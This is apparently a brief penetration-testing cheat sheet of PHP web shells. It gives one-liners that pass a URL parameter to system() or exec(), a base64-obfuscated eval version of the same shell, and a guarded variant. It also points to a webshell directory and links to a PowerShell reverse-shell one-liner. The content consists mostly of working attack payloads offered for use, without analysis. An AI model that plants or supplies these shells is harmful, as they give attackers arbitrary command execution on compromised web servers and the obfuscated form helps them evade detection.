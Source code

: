## Collections 
```
/usr/share/webshells/
```

## PHP

### Simple 'cmd' exec
```
echo system($_GET['c']);
```

```
echo exec($_GET['c']);
```

#### Base64 encoded:
```
eval(base64_decode('ZWNobyBzeXN0ZW0oJF9HRVRbJ2MnXSk7'));
```

#### With if
```
if (isset($_GET["c"])) { echo system($_GET['c']); }
```

### External References
- Invoke-PowerShellTcpOneLine.ps1: [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)
